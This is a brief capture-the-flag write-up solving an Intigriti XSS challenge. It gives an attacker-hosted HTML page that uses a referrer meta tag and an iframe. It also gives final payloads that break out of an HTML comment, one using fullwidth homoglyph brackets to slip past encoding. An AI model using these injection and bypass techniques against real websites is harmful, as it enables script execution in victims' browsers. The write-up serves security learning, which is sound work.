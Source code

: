 link: https://challenge-1221.intigriti.io/challenge/index.php?payload=
Author: https://twitter.com/E1u5iv3F0x

+ In the payload field, when I first gave <h1>test</h1>
![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/02224fbb-8518-4b9d-b447-7252845cac79)
+ When I submitted the same payload for the second time,
![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/b36187ef-853c-40a6-96ed-1de0c72c2099)
+ The referer html comment: The Referer HTTP request header contains an absolute or partial address of the page that makes
the request. The Referer header allows a server to identify a page where people are visiting it from.
+ The idea is following: We as “attacker” setup a webserver with a webpage that redirects the
“victim” visiting our webpage to the challenge page. The referer comment should then show our
webpage.
+ I created my own page with the following contents
```
<html>
<head>
<meta name="referer" content="unsafe-url">
</head>
<body>
<iframe src="https://challenge-1221.intigriti.io/challenge/index.php?payload=">
</body>
</html>
```
+ create a python server and host it.
+ final payload: http://localhost/test.html?-->test<img src=test onerror=document.domain>
+ that still dont work  due to our < and > being encoded
+ https://www.irongeek.com/homoglyph-attack-generator.php
+ Homoglyphs are input “look a like” characters
FInal payload:  http://localhost/test.html? --＞＜script＞alert(document.domain)＜/script＞

# Reference:
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy
